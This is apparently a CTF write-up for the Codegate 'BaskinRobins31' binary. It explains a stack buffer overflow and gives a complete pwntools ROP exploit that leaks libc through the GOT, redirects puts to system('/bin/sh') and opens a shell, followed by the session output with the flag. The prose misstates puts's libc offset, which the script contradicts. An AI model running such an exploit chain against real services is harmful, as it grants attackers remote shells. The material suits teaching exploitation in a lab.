 ```bash
file BaskinRobins31
```
>BaskinRobins31: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4abb416c74a16aaa8b4c9c6c366bed445c306037, not stripped

this task  involves leaking a libc function’s address from the GOT, and using it to determine the addresses of other functions in libc that we can return to.

The vulnerability is in the your_turn() function, where read() is allowed to write 0x190 (400 bytes) into a 0x96 (150 bytes) buffer
the following code shows the vulnerable part of the function 
```assembly
mov    edx,0x96 ;150 bytes 
mov    esi,0x0 ;fill buffer with 0
mov    rdi,rax ;copy adr of buffer to rdi 
call   0x4006f0 <memset@plt> ;memset(rdi,0,0x96)
[...]
mov    edx,0x190 ;size to be read
mov    rsi,rax ;buff adr
mov    edi,0x0 ;stdin
call   0x400700 <read@plt>

```
**The high level solution to exploiting this is as follows:**
1. Leak the address of a library function in the GOT. In this case, we’ll leak puts()’s GOT entry
2. Get libc’s base address so we can calculate the address of other library functions. 
3. Compute system()'s address 
4. Overwrite a GOT entry’s address (puts) with system()’s address
5. Write **/bin/sh** to writeable area , in this case .bss
6. Invoke system("/bin/sh")


**Leaking a libc address** <br>
Grab puts()’s entry in the GOT:

```bash
$ objdump -R BaskinRobins31 |grep "puts"
0000000000602020 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
```
If we can write puts()’s GOT entry back to us,We can do that by overwriting your_turn()’s saved return pointer to setup a ret2plt; in this case, write@plt. 
Since we’re exploiting a 64-bit binary, we need to populate the RDI, RSI, and RDX registers with the arguments for write(). 
So we need to return to a ROP gadget that sets up these registers, and then we can return to write@plt.<br>
**Get libc’s base address** <br>
Next we need to calculate libc’s base address in order to get the address of any library function, or even a gadget, in libc.
```bash
$ ldd BaskinRobins31 
	linux-vdso.so.1 =>  (0x00007ffc10bb0000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f8688442000)
	/lib64/ld-linux-x86-64.so.2 (0x00005621769b1000)
```

/lib/x86_64-linux-gnu/libc.so.6 contains the offsets of all the functions available to us in libc. To get puts()’s offset, we can use readelf:

```bash
$ readelf -s /lib/x86_64-linux-gnu/libc.so.6|grep "puts"
   186: 000000000006f690   456 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
   404: 000000000006f690   456 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
   475: 000000000010bbe0  1262 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
   651: 000000000010d590   703 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
  1097: 000000000006e030   354 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
  1611: 000000000006e030   354 FUNC    GLOBAL DEFAULT   13 _IO_fputs@@GLIBC_2.2.5
  2221: 00000000000782b0    95 FUNC    WEAK   DEFAULT   13 fputs_unlocked@@GLIBC_2.2.5
```
puts()’s offset is at 0x6e030. Subtracting this from the leaked puts()’s address will give us libc’s base address.
To find the address of any library function, we just do the reverse and add the function’s offset to libc’s base address. 
So to find system()’s address, we get its offset from libc.so.6, and add it to libc’s base address.

**Overwrite a GOT entry’s address** <br>
Now that we can get any library function address, we can do a ret2libc to complete the exploit. 
We’ll overwrite puts()’s GOT entry with the address of system(), so that when we trigger a call to puts(), it will call system(“/bin/sh”) instead


1.    Overwrite puts()’s GOT entry with the address of system() using read@plt.
2.    Write “/bin/sh” somewhere in memory using read@plt. We’ll use 0x602090 since it’s a writable location with a static address.
3.    Set RDI to the location of “/bin/sh” and return to system().

Here is the final exploit 
```python
#!/usr/bin/python

from pwn import * 

#p=process('./BaskinRobins31')
p=remote("ch41l3ng3s.codegate.kr",3131)
puts_off = 0x06f690
system_off = 0x45390
writeable = 0x602090 #.bss
puts_got = 0x00602020
puts_plt = 0x4006c0
mov_3pop = 0x400877
write_plt = 0x4006d0
read_plt = 0x400700

payload = ""
payload += "A"*(176) #Junk
payload += p64(0xcafebabe) #rbp
payload += p64(mov_3pop) # mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x1) #rdi
payload += p64(puts_got) #puts@got  => addr to read from 
payload += p64(0x8) #rdx-number of bytes to be written to stdout
payload += p64(write_plt) #write@plt



#Stage 1 :overwrite puts@got with system_adr
payload += p64(mov_3pop) #mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x0) #rdi stdin 
payload += p64(puts_got) #puts@got ==> addr to write to 
payload += p64(0x8) #size to be read
payload += p64(read_plt) #read@plt

#Stage 2 :write /bin/sh to .bss

payload += p64(mov_3pop) #mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x0) #rdi 
payload += p64(writeable) #rsi adr to write '/bin/sh' to 
payload += p64(0x8) #size to be read from stdin
payload += p64(read_plt) #read@plt


#Stage 3 : set RDI to "/bin/sh" and call system()
payload += p64(mov_3pop) #mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(writeable) #rdi ==>adr of '/bin/sh'
payload += p64(0x1) #junk
payload += p64(0x1) #junk
payload += p64(puts_plt) #puts@got which become system()



p.sendline(payload)
p.recvuntil(":(")
leaked_addr = p.recv(8)
puts_libc=hex(u64(leaked_addr))[:-4]
print "[+] Puts is at :"+puts_libc
libc_base = int(puts_libc,16) - puts_off
print "[+] Libc base is", hex(libc_base)
system_addr = libc_base + system_off
print "[+] System() is at", hex(system_addr)
print "[+] Sending system_addr", hex(system_addr)
p.send(p64(system_addr))
print "[+] Sending '/bin/sh'"
p.send("/bin/sh")
p.interactive(">> ")
#flag{The Korean name of "Puss in boots" is "My mom is an alien"}

```
I’ve commented the code heavily, so hopefully that will explain what’s going on ;) 
```
anisboss@anisboss-PC:/tmp/codegate/pwn$ python exploit.py 
[+] Opening connection to ch41l3ng3s.codegate.kr on port 3131: Done
[+] Puts is at :0x7f4c8f872690
[+] Libc base is 0x7f4c8f803000
[+] System() is at 0x7f4c8f848390
[+] Sending system_addr 0x7f4c8f848390
[+] Sending '/bin/sh'
[*] Switching to interactive mode
\x00\x00>> ls
BaskinRobins31
flag
>> cat flag
flag{The Korean name of "Puss in boots" is "My mom is an alien"}
```
